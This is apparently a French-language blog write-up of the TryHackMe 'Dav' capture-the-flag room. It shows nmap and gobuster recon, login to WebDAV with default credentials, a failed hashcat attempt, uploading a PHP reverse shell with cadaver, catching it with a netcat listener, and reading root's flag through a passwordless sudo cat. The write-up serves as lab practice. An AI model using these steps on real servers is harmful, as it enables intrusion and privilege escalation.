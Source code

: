 ```yaml
---
title: "Write-up | Dav"
date: 2020-07-08T22:35:00+02:00
draft: false
tags:
  - writeup
  - tryhackme
---
```


Ce write-up sera dédié à la room Dav, sur [Try Hack Me](https://tryhackme.com).

## Reconnaissance

Je commence par un scan de ports avec `nmap` :
```
$ nmap -T4 -A 10.10.239.64 -oN scans/ports.txt
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-08 19:04 CEST
Nmap scan report for 10.10.239.64
Host is up (0.065s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
```
Il semblerait n'y avoir qu'un serveur Apache sur le port 80. Je passe à l'énumération avec `gobuster` :
```
/webdav
```
En cherchant sur Internet, je tombe sur [ce site](http://xforeveryman.blogspot.com/2012/01/helper-webdav-xampp-173-default.html) qui indique que les creds par défaut sont `wampp:xampp`. Nous sommes chanceux, ils n'ont pas été changés :)
Une fois sur la page, il y a un fichier nommé `passwd.dav` qui contient `wampp:$apr1$Wm2VTkFL$PVNRQv7kzqXQIHe14qKA91`.
`hash-identifier` indique que ce hash correspond à du MD5(APR).

Sur [hashcat.net](https://hashcat.net/wiki/doku.php?id=example_hashes), je trouve que le mode correspondant pour `hashcat` est 1600.
```
$ hashcat -m 1600 hash.txt /usr/share/wordlists/rockyou.txt
...
Session..........: hashcat                       
Status...........: Exhausted
Hash.Name........: Apache $apr1$ MD5, md5apr1, MD5 (APR)
Hash.Target......: $apr1$Wm2VTkFL$PVNRQv7kzqXQIHe14qKA91
Time.Started.....: Wed Jul  8 19:28:37 2020 (11 mins, 36 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    20401 H/s (12.29ms) @ Accel:64 Loops:500 Thr:1 Vec:8
Recovered........: 0/1 (0.00%) Digests
Progress.........: 14344385/14344385 (100.00%)
Rejected.........: 0/14344385 (0.00%)
```
Tout `rockyou.txt` sera passé sur ce hash, et rien. J'ai remis une couche avec `john` et toujours rien.

J'utilise alors `searchploit` pour voir si il y a des vulnérabilité connues de ce service :
```
$ searchsploit webdav
...
XAMPP - WebDAV PHP Upload (Metasploit) | windows/remote/18367.rb
```
C'est plutôt bon signe :)

## Exploitation

J'utilise l'_exploit_ `windows/http/xampp_webdav_upload_php` sur `metasploit`. Après l'avoir exécuté, j'ai bien les 2 fichiers PHP qui sont sur le serveur, mais aucun reverse shell ne se créé.

Changement de plan : je récupère un reverse shell en PHP [ici](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php), puis utilise `cadaver` pour l'uploader :
```
$ cadaver http://10.10.239.64/webdav/
Authentication required for webdav on server `10.10.239.64':
Username: wampp
Password: 
dav:/webdav/> put revshell.php 
Uploading revshell.php to `/webdav/revshell.php':
Progress: [=============================>] 100,0% of 3458 bytes succeeded.
```
Succès ! Je lance `nc` sur un autre terminal et j'ouvre le fichier PHP fraichement uploadé :
```
$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.8.37.193] from (UNKNOWN) [10.10.239.64] 50860
Linux ubuntu 4.4.0-159-generic #187-Ubuntu SMP Thu Aug 1 16:28:06 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
...
$ whoami
www-data
```
J'explore le `/home`, et je trouve l'utilisateur `merlin`, qui a le flag `user.txt` :
```
$ cat /home/merlin/user.txt
[edited]
```

## Élévation de privilèges

J'effectue le traditionnel `sudo -l`:
```
User www-data may run the following commands on ubuntu:
    (ALL) NOPASSWD: /bin/cat
```
C'est presque trop facile :p

```
$ sudo cat /root/root.txt
[edited]
```
Et voilà, la room est terminée !

Je l'ai trouvé super sympa à faire, la difficultée est bien calibrée pour débuter les CTF. Petite dédicace au hash qui m'a fait perdre un peu de temps :D
